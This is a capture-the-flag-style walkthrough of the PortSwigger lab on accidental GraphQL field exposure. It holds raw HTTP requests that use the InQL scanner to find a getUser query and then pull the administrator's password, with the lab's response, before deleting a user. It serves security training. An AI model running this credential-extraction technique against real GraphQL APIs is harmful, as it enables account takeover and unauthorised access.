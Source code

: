 # [Accidental exposure of private GraphQL fields](https://portswigger.net/web-security/graphql/lab-graphql-accidental-field-exposure)

```
The user management functions for this lab are powered by a GraphQL endpoint.

The lab contains an access control vulnerability whereby you can induce the API
to reveal user credential fields.

To solve the lab, sign in as the administrator and delete the username carlos


```

- ### There is an access control vulnerability.
- ### Induce the API to reveal user credential fields

<br>

1. Login as peter
2. Send the login Post request to Repeater
`POST /graphql/v1 HTTP/2`

#### The request:
```HTTP
POST /graphql/v1 HTTP/2
Host: 0ad600ae033e31fd80d82b1400e00015.web-security-academy.net
Cookie: session=ZH9c2h82oKmfd0FIs41gc7f1H5Eofiei; session=IBQkjhPYR7JeDQEP7mOneAGXTZ7TICnX
Content-Length: 232
Accept: application/json
Content-Type: application/json
Origin: https://0ad600ae033e31fd80d82b1400e00015.web-security-academy.net
Referer: https://0ad600ae033e31fd80d82b1400e00015.web-security-academy.net/login

{"query":"\n    mutation login($input: LoginInput!) {\n        login(input:
$input) {\n            token\n            success\n        }\n
}","operationName":"login","variables":{"input":{"username":"wiener","password":"peter"}}}
```
<br>

**NEXT**
> Right-click -> extensions -> InQL GraphQL Scanner -> Generate Queries with InQL scanner
> Click on the InQL tab, and open the folder for the scan you just did
> Then select: queries -> getUser.graphql

<br>

#### This reveals in the window on the rignt the query:
```'GraphQL
query {
    getUser(id: Int!) {
        id
        password
        username
    }
}
```
<br>

- **Because the goal is to Induce the API to reveal user credential fields**
- **Then that means that the query above means you gotta substitute the Int! for an actual number**

- But first, right-click on that getUser.graphql query and send to Repeater
- Then, change Int! to 1
- Guessing 1 is the administarator's id number

#### Send the request:
```HTTP
POST /graphql/v1 HTTP/2
Host: 0ad600ae033e31fd80d82b1400e00015.web-security-academy.net
Content-Type: application/json
Content-Length: 106

{"query": "query {\n    getUser(id: 1) {\n        id\n        password\n
username\n    }\n}"}
```

#### Response:
```HTTP
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
Set-Cookie: session=e9a9R3myvBcVw0i3kedeyUfpuxFYugB4; Secure; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 133

{
  "data": {
    "getUser": {
      "id": 1,
      "password": "avl5ht2slic29khwbtkz",
      "username": "administrator"
    }
  }
}
```

### Now log in as the administrator, go to admin panel and delete carlos


